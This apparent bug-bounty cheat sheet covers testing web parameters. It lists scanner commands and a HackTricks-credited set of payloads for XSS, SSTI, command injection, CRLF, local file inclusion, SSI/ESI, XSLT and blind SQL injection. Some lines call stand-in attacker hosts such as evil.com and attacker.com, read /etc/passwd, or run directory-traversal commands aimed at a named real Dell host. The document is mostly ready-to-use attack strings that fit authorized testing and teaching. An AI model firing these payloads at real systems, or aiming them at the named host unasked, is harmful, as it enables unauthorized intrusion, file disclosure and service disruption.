 # Parameters Manual Testing

#### Automation

```bash
# Paramspider | gau | kxss
python3 ParamSpider/paramspider.py -d target | kxss 
cat subdomains.txt | gau | grep "?" | kxss

# parameter brute forcing 
Arjun -u host.com -w Wordlists/Param-Miner.txt

# Dalfox tool for scanning
Dalfox url host.com?parameters=xss

# Nuclei to fuzz for vulns
nuclei -l parameters.txt -t nuclei_templates/ -et nuclei_templates/waf -et nuclei_templates/others

# DotDotPwn --> <https://github.com/wireghoul/dotdotpwn>  --> for Directory Traversal automation
dotdotpwn -m http-url -u "<https://attachrite.dell.com/en/images/TRAVERSAL>" -f "/???/??ss??" -k "root" -d 20 -b -e "%00.png"
dotdotpwn -m http-url -u "<https://attachrite.dell.com/en/images/TRAVERSAL>" -f "etc/passwd" -k "root" -d 20 -b
```

#### Manual Testing (Credit: HackTricks)

*   **XSS**&#x20;

    ```python
    <img src=x onerror=alert("XSS_By_h0tak88r")> 
    <00 foo="<a%20href="javascript:alert('XSS-Bypass')">XSS-CLick</00>--%20/ 
    jaVasCript:/*-/*`/*\\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\\x3csVg/<sVg/oNloAd=alert()//>\\x3e
    ```
*   **Open Redirect** → **SSRF**

    {% code overflow="wrap" %}
    ```python
    www.whitelisted.com
    www.whitelisted.com.evil.com
    <https://google.com>
    //google.com
    javascript:alert(1)
    <https://evil.com>
    <https://hackerone.com/reports/59372> -> Homograph Attack
    ```
    {% endcode %}
*   **CSTI**&#x20;

    ```
    {{7*7}}[7*7]→ {{3*3}}
    {{constructor.constructor('alert(document.cookie)')()}}
    ```
* **SSTI** → `{{7*7}}${7*7}<%= 7*7 %>${{7*7}}#{7*7}${{<%[%'"}}%\\` → **RCE**
*   **Command Injection →**

    ```python
    1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
    /*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/
    ```
*   **CRLF →**

    ```jsx
    %0d%0aLocation:%20http://attacker.com

    %3f%0d%0aLocation:%0d%0aContent-Type:text/html%0d%0aX-XSS-Protection%3a0%0d%0a%0d%0a%3Cscript%3Ealert%28document.domain%29%3C/script%3E

    %3f%0D%0ALocation://x:1%0D%0AContent-Type:text/html%0D%0AX-XSS-Protection%3a0%0D%0A%0D%0A%3Cscript%3Ealert(document.domain)%3C/script%3E

    %0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2025%0d%0a%0d%0a%3Cscript%3Ealert(1)%3C/script%3E
    ```
* **Dangled Markup \[ HTML Injection ] →** `<br>lol<b><h1>THIS IS AND INJECTED TITLE </h1>`
*   **Local File Inclusion**&#x20;

    ```jsx
    /etc/passwd
    ../../../../../../etc/hosts
    ..\\..\\..\\..\\..\\..\\etc/hosts
    /etc/hostname
    ../../../../../../etc/hosts
    C:/windows/system32/drivers/etc/hosts
    ../../../../../../windows/system32/drivers/etc/hosts
    ..\\..\\..\\..\\..\\..\\windows/system32/drivers/etc/hosts
    <http://asdasdasdasd.burpcollab.com/mal.php>
    \\\\asdasdasdasd.burpcollab.com/mal.php
    ```
*   **ReDOS**&#x20;

    ```python
    (\\\\w*)+$
    ([a-zA-Z]+)*$
    ((a+)+)+$
    ```
*   **Server Side Inclusion/Edge Side Inclusion**

    ```python
    <!--#echo var="DATE_LOCAL" --><!--#exec cmd="ls" --><esi:include src=http://evil.com/>x=<esi:assign name="var1" value="'cript'"/><s<esi:vars name="$(var1)"/>>alert(/Chrome%20XSS%20filter%20bypass/);</s<esi:vars name="$(var1)"/>>
    ```
*   **XSLT Server Side Injection**

    ```python
    <xsl:value-of select="system-property('xsl:version')" /><esi:include src="<http://10.10.10.10/data/news.xml>" stylesheet="<http://10.10.10.10//news_template.xsl>"></esi:include>
    ```
* **Request smuggling** -> [ATO via request smuggling](https://gist.github.com/h0tak88r/8e6f8ff1f1ec511c57ff2063595f49fb#file-request-smuggling-to-ato)
* SQL Injection

```python
Bug : Blind SQL Injection Tips : X-Forwarded-For: 0'XOR(if(now()=sysdate(),sleep(10),0))XOR'Z
```
